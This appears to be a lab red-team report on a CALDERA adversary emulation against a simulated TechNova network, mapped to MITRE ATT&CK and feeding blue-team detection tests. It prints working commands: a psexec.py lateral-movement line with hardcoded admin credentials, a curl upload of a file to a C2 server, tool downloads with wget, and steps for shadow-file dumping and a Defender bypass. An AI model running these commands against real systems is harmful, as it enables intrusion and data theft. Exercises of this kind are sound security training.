





# Red Team Operator – Phase 1 Attack Plan

This document outlines the strategic planning, configuration, and execution of the adversary emulation campaign for Phase 1 (Baseline/Weak Security).

## Table of Contents
1. [Role Overview & Objectives](#1-role-overview--objectives)
2. [Target Scope](#2-target-scope)
3. [Attack Scenarios](#3-attack-scenarios-mitre-attck-mapping)
4. [CALDERA Configuration](#4-caldera-configuration)
    * [4.1. Fact Source Configuration](#41-fact-source-configuration-sis_meta)
    * [4.2. Custom Abilities Developed](#42-custom-abilities-developed)
    * [4.3. Adversary Profile](#43-adversary-profile-project_story_mode)
5. [Ingress Tool Transfer (Pre-Attack)](#5-ingress-tool-transfer-pre-attack)
6. [Operation Execution Log](#6-operation-execution-log)
   * [6.1. Detection Stress Test (Noise Generation)](#61-detection-stress-test-noise-generation-for-wazuh)
7. [Findings & Observations](#7-findings--observations)
    * [7.1. Technical Challenges Encountered](#71-technical-challenges-encountered)

---

## 1. Role Overview & Objectives

As the **Red Team Operator**, the primary goal is to execute a multi-stage cyberattack simulation against the TechNova infrastructure using the **MITRE CALDERA** framework.

**Key Objectives:**
*   Validate the vulnerabilities implemented by the Infrastructure Engineer.
*   Execute a full "Kill Chain" (Initial Access → Persistence → Lateral Movement → Exfiltration).
*   Generate realistic attack telemetry for the Blue Team/Analyst to detect (or fail to detect).
*   Document technical limitations and successful exploits.

---

## 2. Target Scope

The operation targets the internal TechNovaNet (`10.10.0.0/24`) environment.

| Target | IP Address | OS | Role | Vulnerability Exploited |
| :--- | :--- | :--- | :--- | :--- |
| **ubuntu-srv** | `10.10.0.51` | Ubuntu Linux | Initial Foothold | Weak SSH credentials (`webadmin`), insecure file permissions |
| **WIN-CLIENT** | `10.10.0.50` | Windows 10 | Lateral Target | Unpatched vulnerabilities, lack of segmentation, User Execution |
| **DC-SERVER** | `10.10.0.10` | Windows Server | Auth Provider | Enumeration target (not directly exploited) |

---

## 3. Attack Scenarios (MITRE ATT&CK Mapping)

The campaign is designed to follow the MITRE ATT&CK framework phases.

### Scenario 1: Initial Access & Persistence
*   **Tactic:** Initial Access / Persistence
*   **Technique:** T1078 (Valid Accounts), T1053.003 (Cron)
*   **Description:** Compromising the Linux server using leaked credentials and establishing persistence via Cron jobs.

### Scenario 2: Discovery & Credential Access
*   **Tactic:** Discovery / Credential Access
*   **Technique:** T1083 (File Discovery), T1046 (Network Service Scanning), T1552.001 (Credentials in Files)
*   **Description:** Scanning the internal network and hunting for hardcoded administrative credentials left by engineers.

### Scenario 3: Lateral Movement
*   **Tactic:** Lateral Movement
*   **Technique:** T1021.002 (SMB/Windows Admin Shares)
*   **Description:** Attempting to pivot from Linux to Windows using `Impacket` (PsExec/WMIexec) with discovered credentials.

### Scenario 4: Execution & Exfiltration
*   **Tactic:** Execution / Exfiltration
*   **Technique:** T1204 (User Execution), T1041 (Exfiltration Over C2 Channel)
*   **Description:** Executing payload on Windows (simulating Phishing) and exfiltrating sensitive data to the C2 server.

---

## 4. CALDERA Configuration

To enable automated execution, custom abilities were developed and assembled into a specific adversary profile.

### 4.1. Fact Source Configuration (`SIS_Meta`)
The operation relies on a custom Fact Source to define target parameters dynamically.

*   **Source Name:** `SIS_Meta`
*   **Key Facts:**
    *   `remote.host.fqdn`: `10.10.0.50` (Target Windows IP)
    *   `domain.user.name`: `employee` (Initial compromised user context)
    *   `domain.user.password`: `employee`

> **Screenshot Reference:** Configuration of the Fact Source used to target the Windows machine.
>
> 

### 4.2. Custom Abilities Developed
Standard CALDERA abilities were modified to fit the specific lab environment constraints (e.g., using `python3` scripts on Linux or `curl` on Windows).

**A. Lateral Movement (Impacket)**
*   **Name:** `Lateral Movement - Admin Compromise`
*   **Technique:** T1021.002 (SMB/Windows Admin Shares)
*   **Platform:** Linux (Attacker)
*   **Command:**
    ```bash
    python3 psexec.py 'TECHNOVA/admin_lab:Administrator1209!!@10.10.0.50' "C:\Users\Public\splunkd.exe -server http://10.10.0.53:8888 -group red"
    ```
*   **Purpose:** Execute the agent on the target Windows machine using the discovered Admin credentials.

> **Screenshot Reference:** Configuration of the Python3 PsExec command in Caldera.
>
> 

**B. Data Exfiltration**
*   **Name:** `Custom Exfiltration (Generate & Steal)`
*   **Technique:** T1041
*   **Platform:** Windows (Target)
*   **Command:**
    ```cmd
    echo "HACKED BY RED TEAM" > C:\Users\Public\Exfil_Proof.txt && curl -F "data=@C:\Users\Public\Exfil_Proof.txt" http://10.10.0.53:8888/file/upload
    ```

> **Screenshot Reference:** Configuration of the native Curl command for exfiltration.
>
> 

### 4.3. Adversary Profile (`Project_Story_Mode`)
All abilities were chained into a single profile to simulate a complete attack lifecycle. The baseline profile consists of 11 discrete steps designed to validate the kill chain without excessive noise.

**Execution Order:**
1.  **Identify active user** (Verify foothold)
2.  **Simple File Discovery** (Reconnaissance)
3.  **Port Scan Target** (Network Discovery)
4.  **Lateral Movement Attempt - Standard User** (Fail Test)
5.  **Credential Hunting** (Find Admin Password)
6.  **Lateral Movement - Admin Compromise** (Success)
7.  **Windows Discovery** (System/Security/Account info)
8.  **Exfiltration** (Steal Data)

> **Screenshot Reference:** The baseline adversary profile configuration (11 steps).
>
> 

---

## 5. Ingress Tool Transfer (Pre-Attack)

Before executing the automated chain, specific attack tools were staged on the Linux foothold to enable lateral movement capabilities not present by default.

*   **Technique:** T1105 (Ingress Tool Transfer)
*   **Action:** Manual download of Impacket scripts to the compromised Linux host.

**Commands Executed via CALDERA Manual Mode:**
```bash
# Downloading psexec for remote execution
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/psexec.py -O psexec.py

# Installing dependencies
python3 -m pip install impacket --break-system-packages
```
Justification: The Linux agent operates as a lightweight implant. Advanced lateral movement required external Python libraries (impacket) to interact with Windows SMB shares.

---

## 6. Operation Execution Log

**Operation Name:** `Project_Demo_Run`
**Start Time:** 2025-12-21 15:31 GMT+1

The operation was executed automatically using the `Project_Story_Mode` profile. Below is the breakdown of key events based on the Caldera report.

| Time (GMT+1) | Ability Name | Tactic | Status | Analysis / Outcome |
| :--- | :--- | :--- | :--- | :--- |
| **15:31** | `Create persistence cron job` | Persistence | ⚪ **Skipped** | **Planner Error:** Caldera failed to resolve variable dependencies. Manual verification confirmed Cron access was available. |
| **15:31** | `Identify active user` | Discovery | 🟢 Success | Confirmed initial foothold on Linux (`vbubuntu`). |
| **15:32** | `Simple File Discovery` | Discovery | 🟢 Success | Listed files in the current directory. |
| **15:33** | `Port Scan Target` | Discovery | 🟢 Success | Confirmed port 445 (SMB) and 135 (RPC) are open on 10.10.0.50. |
| **15:33** | `Lateral Movement (Standard)` | Lateral | 🔴 Failed | Attack with `employee` credentials failed. Expected behavior. |
| **15:34** | `Credential Hunting` | Cred Access | 🟢 Success | Extracted `admin_lab` credentials from `/tmp/db_config.py`. |
| **15:35** | `Lateral Movement (Admin)` | Lateral | 🟡 Timeout | **Success.** Agent successfully installed on Windows despite API timeout. |
| **15:37** | `Identify active user` | Discovery | 🟢 Success | **Lateral Movement Confirmed.** New agent running on Windows as `SYSTEM`. |
| **15:38** | `System Information Discovery` | Discovery | 🟢 Success | Collected OS details (Windows 10 IoT Enterprise). |
| **15:39** | `Security Software Discovery` | Discovery | 🟢 Success | Identified "Windows Defender" via WMI query. |
| **15:39** | `Account Discovery (all)` | Discovery | 🔴 Failed | Command `net user /domain` failed to retrieve full list (likely due to DC connectivity nuance), but local enumeration worked. |
| **15:40** | `Custom Exfiltration` | Exfiltration | 🟢 Success | File `Exfil_Proof.txt` uploaded to C2 server via `curl`. |

**Note on Persistence:** While the automated Cron Job ability was skipped during this specific run due to a C2 planner timing issue, the vulnerability (weak file permissions and cron access) remains valid. Persistence was successfully demonstrated via "Noisy Service Creation" in Phase 2. For example, an attacker could manually add a cron job using `crontab -e` to execute a script every minute, maintaining access even after reboots.

> **Evidence:**
>
> **1. Operation Timeline:** Green indicators confirm successful execution of the kill chain steps (11 abilities).
> 
>
> **2. Active Agents:** Proof of successful Lateral Movement (Windows Agent `itlfxp` is active).
> 

### 6.1. Detection Stress Test (Noise Generation for Wazuh)

After validating the successful "Silent" kill chain (11 steps), the operation logic was extended to generate specific telemetry for the Blue Team (Wazuh SIEM). This phase involved adding deliberate "noisy" indicators to test detection rules.

**Added Abilities (Extending Profile to 13 steps):**
1.  **Dump Shadow File (Sudo):** Reads sensitive file `/etc/shadow` to trigger privilege escalation rules.
2.  **Noisy Service Creation:** Registers `rt_malware.service` to test File Integrity Monitoring (FIM).
3.  **Manual Brute Force:** Generates PAM authentication failures.

**Execution approach:**
These abilities were executed manually or appended to a secondary profile run to ensure the Analyst had sufficient data points for correlation.

> **Screenshot Reference:**
>
> **1. Extended Adversary Profile:** The profile updated with noise-generating abilities (Total: 13 steps, showing "Dump Shadow" and "Noisy Service").
> 
>
> **2. Noise Configuration:** Setup of the malicious service creation ability.
> 
>
> **3. Manual Noise Execution:** Generating PAM authentication failures (`su` flooding) on Linux.
> 

---

## 7. Findings & Observations

Based on the execution of Phase 1, the following security observations were made:

1.  **Internal Network Visibility:** The Linux server has unrestricted network access to the Windows Workstation (ports 445, 135 confirmed open via `nc`).
2.  **Lateral Movement Barriers:** Standard domain users (`employee`) are correctly restricted from performing administrative lateral movement (PsExec failed).
3.  **Critical Vulnerability:** Hardcoded administrative credentials found on the Linux server allowed complete compromise of the Windows environment.
4.  **Exfiltration:** There are no outbound filtering rules preventing HTTP POST requests to port 8888, allowing easy data exfiltration.

**Next Steps:** These findings will be handed over to the Blue Team for remediation in Phase 2.

### 7.1. Technical Challenges Encountered

During the operation, several environment-specific challenges were overcome:

1.  **Defender Intervention:** Windows Defender initially blocked the `psexec` service installation (`VirTool:Win32/RemoteExec`). This required a bypass strategy (simulating disabled RTP for the baseline phase).
2.  **Cross-Platform Syntax:** Standard Windows PowerShell commands caused "500 Internal Server Errors" on the C2 server during exfiltration.
    *   *Solution:* Switched to native `cmd` and `curl` for reliable data transfer.
3.  **Authentication Protocols:** Linux-based tools required specific domain formatting (`TECHNOVA/user` vs `TECHNOVA\user`) to successfully authenticate against Active Directory.
4.  **Persistence Automation:** Caldera planner failed to resolve variable dependencies for cron job creation, but manual verification confirmed the vulnerability (weak file permissions and cron access) was present.